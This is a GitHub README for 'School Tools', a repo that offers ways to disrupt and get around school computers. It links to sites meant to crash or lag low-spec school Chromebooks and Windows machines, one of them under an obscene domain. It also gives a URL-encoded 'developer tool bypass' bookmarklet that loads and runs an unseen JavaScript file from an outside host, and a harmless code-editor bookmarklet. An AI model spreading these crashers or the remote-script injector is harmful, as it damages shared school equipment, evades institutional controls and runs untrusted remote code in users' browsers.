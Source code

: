# School Tools (C) 2021 - present Stiizzy Cat

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/) ```http://bongo-hates-python.cf/```
+ [Crasher/lagger](https://crash.drugs4children.org/) ```https://crash.drugs4children.org/```

> Developer Tool Bypasses
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22FUNNY%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fanimetitties.net%2FGetsource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)())()
```
> Mini Code Editor V`
```JS
javascript:(function()%7Bconst%20wnd%20%3D%20window.open('School%20Toolz%20CodeEditor'%2C%20'_blank'%2C%20'status%3Dno%2Ctoolbar%3Dno%2Clocation%3Dno%2Cdirectories%3Dno%2Cresizable%3Dno%2Cscrollbars%3Dyes%2Cwidth%3D600%2Cheight%3D400')%3Bwnd.document.write(%60%3C!DOCTYPE%20html%3E%3Chtml%20lang%3D%22en%22%3E%3Cselect%20name%3D%22language%22%20id%3D%22language%22%3E%3Coption%20value%3D%22javascript%22%3EJavaScript%3C%2Foption%3E%3Coption%20value%3D%22python%22%3EPython%3C%2Foption%3E%3Coption%20value%3D%22lua%22%3Elua%3C%2Foption%3E%3Coption%20value%3D%22html%22%3Ehtml%3C%2Foption%3E%3Coption%20value%3D%22css%22%3Ecss%3C%2Foption%3E%3Coption%20value%3D%22lua%22%3Elua%3C%2Foption%3E%3Coption%20value%3D%22C%23%22%3EC%23%3C%2Foption%3E%3Coption%20value%3D%22php%22%3Ephp%3C%2Foption%3E%3Coption%20value%3D%22sh%22%3ESH%3C%2Foption%3E%3Coption%20value%3D%22vbscript%22%3EVbscript%3C%2Foption%3E%3C%2Fselect%3E%3Cbody%20style%3D%22margin%3A0%20%22%3E%3Cdiv%20id%3D%22editor%22%3Econsole.log(%22Editor%20Bookmarklet%20By%20School%20Toolz%20Team%22)%3C%2Fdiv%3E%3Cscript%20src%3D%22https%3A%2F%2Fcdnjs.cloudflare.com%2Fajax%2Flibs%2Face%2F1.1.01%2Face.js%22%20type%3D%22text%2Fjavascript%22%20charset%3D%22utf-8%22%3E%3C%2Fscript%3E%3Cscript%3Evar%20codinglang%20%3D%20%22javascript%22%3Bvar%20editor%20%3D%20ace.edit(%22editor%22)%3Bconst%20lang%20%3D%20document.getElementById('language')%3B%20lang.addEventListener('change'%2C%20function()%20%7B%20codinglang%20%3D%20lang.value%2C%20editor.getSession().setMode(%22ace%2Fmode%2F%22%20%2B%20codinglang)%3B%20%7D)%3Beditor.setTheme(%22ace%2Ftheme%2Ftomorrow_night_eighties%22)%3Beditor.getSession().setMode(%22ace%2Fmode%2F%22%20%2B%20codinglang)%3Bdocument.getElementById(%22editor%22).style.height%20%3D%20%22400px%22%3B%3C%2Fscript%3E%3C%2Fbody%3E%3C%2Fhtml%3E%60)%7D)()
```
+ [Soon](https://github.com/StiizzyCat/SchoolTools)
